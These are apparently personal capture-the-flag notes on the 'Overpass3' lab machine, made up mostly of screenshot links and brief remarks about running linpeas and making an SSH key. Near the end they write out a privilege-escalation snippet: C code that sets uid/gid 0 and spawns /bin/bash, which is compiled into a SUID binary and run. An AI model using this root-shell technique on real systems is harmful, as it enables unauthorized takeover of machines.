# Overpass3
26 April 2022
09:11 PM















after dropping linpeas



making ssh key











**it does not work**
**why i don't know**





**echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return
0; }' \> exploit.c**

**sudo chmod +s exploit**
**./exploit**


